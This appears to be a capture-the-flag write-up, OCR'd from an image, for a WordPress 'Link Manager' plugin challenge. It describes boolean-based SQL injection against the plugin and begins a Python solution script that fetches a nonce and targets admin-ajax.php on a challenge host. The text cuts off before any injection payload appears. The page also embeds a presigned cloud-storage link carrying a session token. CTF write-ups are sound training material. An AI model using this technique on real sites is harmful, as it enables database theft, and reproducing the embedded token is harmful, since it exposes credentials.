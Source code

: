 # Link Manager

## Description

I am very angry that WordPress dropped the support for Link Manager in version 3.5 release. I created my own plugin to cover that feature and it is still in the beta phase, can you check if everything's solid?

NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/3b2450b1-f4e5-4ff9-8f00-27e47d68ea91/attachment.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466TEUCHCT6%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044359Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJHMEUCIQDDoEllED7nCbHELhYuIULjW5JjMgdKPOuic%2FzbqHo4ygIgc0iuEF%2FaVVYMyu0g%2BKWKp8Ev0H2gxU6XWfQ1Jiv9joEqiAQI%2Ff%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDBC7udYIVHN7pggHzSrcA3y5dl2dC3vr3Rx48YGNJeGgnPMW8HF0z%2BfKLEXDq5nvR7DJu2uUM1LtIkUVzHlSLw4PskpOOikxfmAGo0U8rTw147eqyTI5ygtlu8wICs9m8kk9KcmuppZ6X6r1YnSEn9APYg%2BhIdnAhzjorZkykDj5j23jLguy8PiM%2BxoVdvEH0WVFsJemz1ZbX1Vkep2VktBLudNUgW2c2VlClWC3yvMME2sV2vnPc4cJ%2B%2Fd2YumthyJZncry3PsGOgQ4G1C4oblinkDoPkJm6NA2H1eLNIauQzh04djbQ3KaTgJDJ4ZkQRY4RV%2FsGwbvSdI7ctyJ7uu9UqesdUOdsVSchpbm7K%2FM2dLQZtYgcCfRfGBmK1OJFK460n4wJj5i5wTux2o7dVJzDcNtVwzmOs%2BjptiwVHNZWf398BaUad3Px6%2BNrbFDdLS3R2RWCF1P9pcIbtv6DfTme0eDBTj4%2FR4tnJkQ7p%2FIME%2FQd5RJvYoEMh9t%2BIiRoom%2FY0nwlsbNxSkr%2FvOUNlJa2fUZbheXXhYXuDD3AwQ2Z33fIvAcZ9qapnnUExODQXTMK33uPvx1tb%2BtYBPfJgAuzPUDLzVhK0ySzHjuX3O1EGA4OCPRuOXnwHldFd5FxcHb5MOlGY%2FxDRncMJ6SxcEGOqUBjAUPy5peD7iqUyKz%2BVK1OZTXo336gAyAoRDVh7w6w%2BiO6GrKy47XdUL2BrKK8n8cCIlTGMQyWm4adHBB%2Ft3ATtP2M%2F%2B2q%2FuZUZt1%2FODSI6HTzZBsfIxqkvMe%2FnL9hZiwA3omEzwO5Qv2bicfv2myxBJqrlZvzV5jK4p22etL2AXLjQ3YGs6adfKHwTOhCewRYfG8o6%2FhMub5nvBaoQvbpN8uKfbQ\&X-Amz-Signature=cfa67494827f83665b5cda5261138f7c8ece2368321ae2b66a72b3a8e08b5582\&X-Amz-SignedHeaders=host\&x-id=GetObject)

## How to Solve

I solved this challenge by leveraging SQL injection in the `link-manager`. I used a boolean-based SQL injection to extract the flag stored in the `flag_links_data` option. Below is my solution script.

### Step 1: Populate the Data

```python
import httpx
import re

link = "http://100.25.255.51:9097"

# Step 1: Fetch the Nonce from the Front Page
def fetch_nonce():
    front_page_url = link
    response = httpx.get(front_page_url)

    # Extract the nonce using regex (adjust pattern based on how it's printed)
    match = re.search(r"ajaxNonce\s*=\s*'([a-zA-Z0-9_-]+)'", response.text)
    if match:
        return match.group(1)
    else:
        raise ValueError("Nonce not found on the front page.")

# Step 2: Submit the Link Data
def submit_link(url, name, description):
    # Fetch nonce from the front page
    nonce = fetch_nonce()

    # Define the AJAX URL
    ajax_url = link+"/wp-admin/admin-ajax.php"

    # Prepare the data payload
```